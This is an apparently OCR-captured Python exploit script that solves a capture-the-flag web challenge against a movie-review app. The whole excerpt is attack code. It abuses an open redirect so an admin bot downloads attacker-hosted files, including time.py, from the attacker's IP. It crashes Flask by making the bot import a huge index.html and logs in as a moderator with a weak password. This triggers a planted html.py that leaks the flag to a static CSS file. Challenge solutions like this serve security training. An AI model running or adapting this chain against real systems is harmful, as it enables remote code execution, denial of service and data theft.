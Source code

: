 ```python

if response.status_code != 200:
    print("[-] Failed to make the admin bot visit the open redirect link")
    exit(1)
print("[+] Admin bot visited the open redirect link and 'time.py' was downloaded")

time.sleep(1)


### Make the admin bot visit the open redirect to try to import a large index.html to crash flask
print("[*] Making the admin bot visit the open redirect link to try to import a large index.html to crash flask")

for i in range(5):
    visit_link_payload = {"review_url": f"/admin/impersonate?username=admin&redirect_to=https://{my_ip}/index.html"}
    response = admin_session.post(visit_link_url, json=visit_link_payload)
    
    if response.status_code == 503:
        break
    
    if i == 4:  # Last attempt
        print("[-] Failed to make the admin bot visit the open redirect link and crash flask after 5 attempts")
        exit(1)
    
    time.sleep(1)  # Wait between attempts

print("[+] Admin bot visited the open redirect link and crashed flask")

time.sleep(5)

### Logging in as moderator
moderator_session = requests.session()
print("[*] Logging in as moderator to trigger the html.py execution and leak the flag")
login_payload={"password": "a", "username": "moderator@movie-review.local"}
response = moderator_session.post(login_url, json=login_payload)
if response.status_code != 200:
    print("[-] Failed to login as moderator")
    exit(1)
print("[+] Logged in as moderator")

time.sleep(1)
### Get the movies from the api to trigger the html.py execution and leak the flag
print("[*] Getting the movies from the api to trigger the html.py execution and leak the flag")
response = moderator_session.get(f"{target_url}/api/get_movies")
if response.status_code != 200:
    print("[-] Failed to get the api")
    exit(1)
print("[+] Got the api and caused the flag to be leaked")

time.sleep(2)

### Get the flag
print("[*] Getting the flag")
r = requests.get(f"{target_url}/static/flag.css")
if r.status_code != 200:
    print("[-] Failed to get the flag")
    exit(1)
print(f"[+] Found the second flag: {r.text}")
```
